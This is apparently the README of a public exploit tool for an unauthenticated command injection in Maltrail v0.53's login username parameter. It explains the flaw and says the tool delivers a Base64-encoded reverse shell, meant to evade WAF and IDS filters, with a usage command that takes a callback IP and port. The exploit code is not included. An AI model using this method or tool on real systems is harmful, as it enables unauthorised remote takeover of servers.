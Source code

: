 # Weaponized Exploit for Maltrail v0.53 Unauthenticated OS Command Injection (RCE)

This Python script exploits a command injection vulnerability in the Maltrail (v0.53) web service  

- The vulnerability exists in the login page and can be exploited via the `username` parameter  


## Vulnerability Explanation

[In this specific case,](https://github.com/stamparm/maltrail/blob/master/core/httpd.py#L399) the `username` parameter of the login page doesn't properly sanitize the input, allowing an attacker to inject OS commands  

The service uses the `subprocess.check_output()` function to execute a shell command that logs the username provided by the user. If an attacker provides a specially crafted username, they can inject arbitrary shell commands that will be executed on the server

In shell scripting, the semicolon `;` is used to separate multiple commands. So, when the attacker provides a username that includes a semicolon, followed by a shell command, the shell treats everything after the semicolon as a separate command. Basically, everything after `;` will run anyway.

## Exploit Overview

The exploit creates a reverse shell payload encoded in Base64 to bypass potential protections like WAF, IPS or IDS and delivers it to the target URL using a curl command  
The payload is then executed on the target system, establishing a reverse shell connection back to the attacker's specified IP and port

## Usage

The script requires three arguments: the IP address where the reverse shell should connect back to (listening IP), the port number on which the reverse shell should connect (listening port) and the URL of the target system  
> Script requires curl to be installed
```sh
python3 exploit.py [listening_IP] [listening_PORT] [target_URL]
```  
For example:
```sh
python3 exploit.py 1.2.3.4 1337 http://example.com
```


## Disclaimer
This is intended for educational purposes and legal use only.  
Always obtain proper authorization before performing penetration testing or exploiting vulnerabilities.

## Ressource
- https://huntr.dev/bounties/be3c5204-fbd9-448d-b97c-96a8d2941e87/
